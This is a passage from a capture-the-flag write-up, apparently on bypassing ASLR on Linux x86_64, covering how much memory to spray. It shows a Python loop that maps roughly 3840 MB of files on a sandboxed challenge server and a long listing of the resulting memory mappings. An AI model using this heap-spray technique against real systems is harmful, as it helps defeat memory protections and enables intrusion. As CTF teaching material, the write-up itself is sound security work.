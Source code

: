 Nice! Multiple allocations won't have gaps.

## 4.4 How much memory to spray?

As you can see from [this poc](#poc-of-aslr-bypass-on-linux), the ideal size for the contiguous mapped memory would be 16TB.

Unfortunately, if you try to allocate 16TB of memory on the remote server, the mmap will fail, because [nsjail limit this](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64#21-initial-foothold).

After some trial and error I found out that I can spray ~3840mb of memory, with this code:

```py
size =    0x000004000000
for i in range(0, 60):
    print ('.', end='')
    isAddrMapped(IN_ADDR, i, size)
```

the result memory mappings will be something like this:

### Memory Spray result
```
root@088ec31b2ce9:/home/ctf/challenge# cat /proc/`pgrep flag_server-exe`/maps
... My spray: ...
7fe2dc000000-7fe2e0000000 r--p 00000000 00:af 121                        /challenge/files/59.unkyle
7fe2e0000000-7fe2e4000000 r--p 00000000 00:af 119                        /challenge/files/58.unkyle
7fe2e4000000-7fe2e8000000 r--p 00000000 00:af 117                        /challenge/files/57.unkyle
7fe2e8000000-7fe2ec000000 r--p 00000000 00:af 115                        /challenge/files/56.unkyle
7fe2ec000000-7fe2f0000000 r--p 00000000 00:af 113                        /challenge/files/55.unkyle
7fe2f0000000-7fe2f4000000 r--p 00000000 00:af 111                        /challenge/files/54.unkyle
7fe2f4000000-7fe2f8000000 r--p 00000000 00:af 109                        /challenge/files/53.unkyle
7fe2f8000000-7fe2fc000000 r--p 00000000 00:af 107                        /challenge/files/52.unkyle
7fe2fc000000-7fe300000000 r--p 00000000 00:af 105                        /challenge/files/51.unkyle
7fe300000000-7fe304000000 r--p 00000000 00:af 103                        /challenge/files/50.unkyle
7fe304000000-7fe308000000 r--p 00000000 00:af 101                        /challenge/files/49.unkyle
7fe308000000-7fe30c000000 r--p 00000000 00:af 99                         /challenge/files/48.unkyle
7fe30c000000-7fe310000000 r--p 00000000 00:af 97                         /challenge/files/47.unkyle
7fe310000000-7fe314000000 r--p 00000000 00:af 95                         /challenge/files/46.unkyle
7fe314000000-7fe318000000 r--p 00000000 00:af 93                         /challenge/files/45.unkyle
7fe318000000-7fe31c000000 r--p 00000000 00:af 91                         /challenge/files/44.unkyle
7fe31c000000-7fe320000000 r--p 00000000 00:af 89                         /challenge/files/43.unkyle
7fe320000000-7fe324000000 r--p 00000000 00:af 87                         /challenge/files/42.unkyle
7fe324000000-7fe328000000 r--p 00000000 00:af 85                         /challenge/files/41.unkyle
7fe328000000-7fe32c000000 r--p 00000000 00:af 83                         /challenge/files/40.unkyle
7fe32c000000-7fe330000000 r--p 00000000 00:af 81                         /challenge/files/39.unkyle
7fe330000000-7fe334000000 r--p 00000000 00:af 79                         /challenge/files/38.unkyle
7fe334000000-7fe338000000 r--p 00000000 00:af 77                         /challenge/files/37.unkyle
7fe338000000-7fe33c000000 r--p 00000000 00:af 75                         /challenge/files/36.unkyle
7fe33c000000-7fe340000000 r--p 00000000 00:af 73                         /challenge/files/35.unkyle
7fe340000000-7fe344000000 r--p 00000000 00:af 71                         /challenge/files/34.unkyle
7fe344000000-7fe348000000 r--p 00000000 00:af 69                         /challenge/files/33.unkyle
7fe348000000-7fe34c000000 r--p 00000000 00:af 67                         /challenge/files/32.unkyle
7fe34c000000-7fe350000000 r--p 00000000 00:af 65                         /challenge/files/31.unkyle
7fe350000000-7fe354000000 r--p 00000000 00:af 63                         /challenge/files/30.unkyle
7fe354000000-7fe358000000 r--p 00000000 00:af 61                         /challenge/files/29.unkyle
7fe358000000-7fe35c000000 r--p 00000000 00:af 59                         /challenge/files/28.unkyle
7fe35c000000-7fe360000000 r--p 00000000 00:af 57                         /challenge/files/27.unkyle
7fe360000000-7fe364000000 r--p 00000000 00:af 55                         /challenge/files/26.unkyle
7fe364000000-7fe368000000 r--p 00000000 00:af 53                         /challenge/files/25.unkyle
7fe368000000-7fe36c000000 r--p 00000000 00:af 51                         /challenge/files/24.unkyle
7fe36c000000-7fe370000000 r--p 00000000 00:af 49                         /challenge/files/23.unkyle
7fe370000000-7fe374000000 r--p 00000000 00:af 47                         /challenge/files/22.unkyle
7fe374000000-7fe378000000 r--p 00000000 00:af 45                         /challenge/files/21.unkyle
```